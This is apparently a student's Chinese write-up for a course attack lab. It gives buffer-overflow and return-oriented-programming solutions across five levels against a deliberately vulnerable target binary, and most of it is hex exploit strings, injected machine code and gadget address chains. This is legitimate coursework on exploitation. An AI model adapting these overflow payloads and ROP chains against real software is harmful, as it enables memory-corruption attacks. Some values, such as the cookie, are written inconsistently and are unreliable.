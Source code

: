 编号:`target148`

# level1

课上师兄讲过了，所以直接照着操作就行，先看反汇编的代码：

```assembly
00000000004017e6 <getbuf>:
  4017e6:	48 83 ec 28          	sub    $0x28,%rsp
00000000004017fc <touch1>:
  4017fc:	48 83 ec 08          	sub     400df0 <exit@plt>
```

在我的target中，开辟的栈空间是0x28，40个字节，所以写答案的时候只需要四十个占位置的，再加上以小端方式输入的<touch1>地址即可。

> 00 00 00 00 00 00 00 00 00 00
> 00 00 00 00 00 00 00 00 00 00 
> 00 00 00 00 00 00 00 00 00 00 
> 00 00 00 00 00 00 00 00 00 00 
> fc 17 40 00 00 00 00 00

# level2

由于栈中代码是可执行的，所以可以通过修改返回地址为栈中地址，来执行代码。

首先，所欲执行的代码为：

```assembly
   0:	48 c7 c7 c5 b8 ed 30 	mov    $0x30bed8c5,%rdi
   7:	68 28 18 40 00       	pushq  $0x401828
   c:	c3                   	retq   
```

先拿到这个代码对应的二进制机器码。

随后，我们需要把返回地址设置为栈地址，实现跳转。

通过在运行过程中查看%rsp的地址，就可以找到了:


![image-20231203164747224](C:\Users\Baijy\AppData\Roaming\Typora\typora-user-images\image-20231203164747224.png)

随后，只需要把这个地址设置为返回值即可。

由于此时会依次执行栈中代码，所以应该把想要执行的代码放在开头。

但也可以将除了需要执行的代码之外，全部设置为`nop`对应机器码为90，这样想执行的代码设置在那40个字符中任意一段都可以。
比如：

> 90 90 90 90 90 90 90 90 90 90
> 48 c7 c7 c5 b8 ed 30 68 28 18 
> 40 00 c3 90 90 90 90 90 90 90 
> 90 90 90 90 90 90 90 90 90 90
> 98 e8 64 55

# level3

首先把我的cookie按照字符串转为acsii

>  0x30edb8c5->33 30 65 64 62 38 63 35

既然题目告诉了我们不能存放在getbuf的栈帧里面，就应该存在它之前的栈帧中。

在getbuf前打个断点，然后用gdb的`info frame`，查看前一个栈帧的位置：

![image-20231203174507209](C:\Users\Baijy\AppData\Roaming\Typora\typora-user-images\image-20231203174507209.png)

在getbuf 的返回地址之后继续写入，就可以进入上一个栈帧的位置。

于是同第二题的思路，使用以下汇编:

```assembly
   0:	48 c7 c7 c8 e8 64 55 	mov    $0x5564e8c8,%rdi
   7:	68 fc 18 40 00       	pushq  $0x4018fc
   c:	c3                   	retq   
```

最终组合成完整答案：

> 48 c7 c7 c8 e8 64 55 68 fc 18
> 40 00 c3 90 90 90 90 90 90 90
> 90 90 90 90 90 90 90 90 90 90
> 90 90 90 90 90 90 90 90 90 90
> 98 e8 64 55 00 00 00 00 
> 33 30 65 64 62 38 63 35

前四行对应于getbuf的栈帧，第五行是覆盖返回地址，第六行是cookie对应的ascii值。

# level4

再回顾一下第二题的汇编：

```assembly
mov    $0x30bed8c5,%rdi
pushq  $0x401828
retq   
```

也就是说我们要干的事情有两个，**一个是把`cookie`装在`%rdi`里面，还有一个是跳转到`touch2`的地址**。

把cookie搞到%rdi得分步走，根据提示，大概率是使用pop和mov命令来实现。

pop的作用是rsp增加和将弹出的值存在寄存器里。

那么直接pop %rdi，就可以实现参数的传递了，对应的机器码是5f，但很遗憾从farm到mid_farm里并没有对应的机器码。

关于pop的指令，这个范围中出现的只有58，对应popq %rax。

也就是说不得不先把参数放到%rax里面，再移动到%rdi中，找到了对应movq %rax,%rdi的机器码正好出现在里面。

```assembly
401996:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
4019a9:	b8 48 89 c7 c3       	mov    $0xc3c78948,%eax
```

这两句都不能直接按左边地址直接用，分别得移动1个位置。`401997`,`4019aa`

再加上touch2的地址，cookie的值，就可以把本题解决了。

```assembly
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
90 90 90 90 90 90 90 90 90 90
97 19 40 00 00 00 00 00
c5 b8 ed 30 00 00 00 00
aa 19 40 00 00 00 00 00
28 18 40 00 00 00 00 00
```

前四行是用来占位置的。

第五行跳转执行popq %rax,将第六行的cookie值赋值给%rax，然后return跳转到第七行地址位置。

第七行跳转执行molq %rax，%rdi,将%rax中的cookie赋值给%rdi，然后return跳转到第八行地址位置。

第八行是`touch2`的入口，带着%rdi中的正确参数运行。

# level5

和level3一样，需要先把cookie对应的ascii存在调用前的栈帧中，然后把指向栈帧的地址放在%rdi中用来调用。

首先搜一下touch3的地址:

`00000000004018fc `

然后观察一下farm。

movq类指令都是48 89 开头，在farm里搜了一下，一共有七个，实际能用的有：

```assembly
48 89 c7 movq %rax %rdi
48 89 e0 movq %rsp %rax
```

pop 类指令可用的有:

```assembly
58 pop %rax
```

由此观之，可以实现把%rsp放到%rdi里面，那么剩下的就比较没头绪了。

但是观察farm，发现了唯一一个带正常名字的函数：



```assembly
  4019c3:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
```

那么看起来也很有可能用这个，通过加法间接实现。

考虑到%rsi相关的操作也找不到，或许得退而求其次，或许得考虑`movl`，又发现了一些（其中有一些后面不直接跟nop或ret，但后面的操作是一些操作本题用不到的寄存器或别的一些事情，不影响结果，所以也可以用）:

```assembly
89 d1 movl %edx,%ecx
89 e0 movl %esp,%eax
89 c2 movl %eax,%edx
89 ce movl %ecx %esi
89 c7 movl %eax,%edi
```

通过这个可以实现了就，只是中间需要绕几步。

变成:

```assembly
movl %eax,%edx
movl %edx,ecx
movl %ecx,%esi
lea (%rdi, %rsi, 1), %rax
movq %rax, %rdi
```

于是汇编整体为：

```assembly
movq %rsp,%rax
movq %rax,%rdi
pop %rax
movl %eax,%edx
movl %edx,ecx
movl %ecx,%esi
lea (%rdi, %rsi, 1), %rax
movq %rax, %rdi
```

对应farm地址：

``` assembly
401a32:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
4019b6:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
401996:	b8 58 90 90 c3       	mov    $0xc3909058,%eax
4019fe:	8d 87 89 c2 38 d2    	lea    -0x2dc73d77(%rdi),%eax
401a2b:	8d 87 60 89 d1 c3    	lea    -0x3c2e76a0(%rdi),%eax
4019f7:	c7 07 89 ce 84 db    	movl   $0xdb84ce89,(%rdi)
4019c3:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
```

在pop前还有一行用于存偏移量,就是cookie对应从`%rsp`开始偏移的位置，经计算为十进制的72，转为十六进制是48于是最终答案：

> 90 90 90 90 90 90 90 90 90 90
> 90 90 90 90 90 90 90 90 90 90
> 90 90 90 90 90 90 90 90 90 90
> 90 90 90 90 90 90 90 90 90 90
> 34 1a 40 00 00 00 00 00
> b8 19 40 00 00 00 00 00
> 97 19 40 00 00 00 00 00
> 48 00 00 00 00 00 00 00
> 00 1a 40 00 00 00 00 00
> 2e 1a 40 00 00 00 00 00
> f9 19 40 00 00 00 00 00
> c3 19 40 00 00 00 00 00
> b8 19 40 00 00 00 00 00
> fc 18 40 00 00 00 00 00
> 33 30 65 64 62 38 63 35